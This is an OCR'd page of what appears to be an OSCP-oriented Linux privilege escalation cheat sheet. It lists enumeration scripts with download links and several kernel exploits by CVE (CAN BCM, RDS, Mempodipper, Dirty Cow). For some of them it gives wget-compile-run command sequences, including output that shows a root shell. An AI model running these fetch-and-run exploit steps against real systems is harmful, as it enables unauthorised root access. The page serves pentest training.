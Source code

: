 - There are a few scripts that can automate the linux enumeration process:

    - Google is my favorite Linux Kernel exploitation search tool. Many of these automated checkers are missing important kernel exploits which can create a very frustrating blindspot during your OSCP course.

    - [LinuxPrivChecker.py](http://linuxprivchecker.py/) - My favorite automated linux priv enumeration checker -\
[https://www.securitysift.com/download/linuxprivchecker.py](https://www.securitysift.com/download/linuxprivchecker.py) 

    - LinEnum - (Recently Updated)\
[https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum) 

    - linux-exploit-suggester (Recently Updated)\
[https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester) 

    - Highon.coffee Linux Local Enum - Great enumeration script!\
wget <[https://highon.coffee/downloads/linux-local-enum.sh](https://highon.coffee/downloads/linux-local-enum.sh)>

    - Linux Privilege Exploit Suggester (Old has not been updated in years)\
[https://github.com/PenturaLabs/Linux_Exploit_Suggester](https://github.com/PenturaLabs/Linux_Exploit_Suggester) 

    - Linux post exploitation enumeration and exploit checking tools\
[https://github.com/reider-roque/linpostexp](https://github.com/reider-roque/linpostexp)\
Handy Kernel Exploits

- CVE-2010-2959 - ‘CAN BCM’ Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)\
[https://www.exploit-db.com/exploits/14814/](https://www.exploit-db.com/exploits/14814/)\
wget -O i-can-haz-modharden.c <[http://www.exploit-db.com/download/14814](http://www.exploit-db.com/download/14814)>\
$ gcc i-can-haz-modharden.c -o i-can-haz-modharden\
$ ./i-can-haz-modharden\
\[+\] launching root shell!\
\# id\
uid=0(root) gid=0(root)

- CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8[https://www.exploit-db.com/exploits/15285/](https://www.exploit-db.com/exploits/15285/) 

- CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)[https://git.zx2c4.com/CVE-2012-0056/about/](https://git.zx2c4.com/CVE-2012-0056/about/) Linux CVE 2012-0056\
wget -O exploit.c <[http://www.exploit-db.com/download/18411](http://www.exploit-db.com/download/18411)>\
gcc -o mempodipper exploit.c\
./mempodipper

- CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8[https://dirtycow.ninja/](https://dirtycow.ninja/) First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016

- Run a command as a user other than root\
sudo -u haxzor /usr/bin/vim /etc/apache2/sites-available/000-default.conf

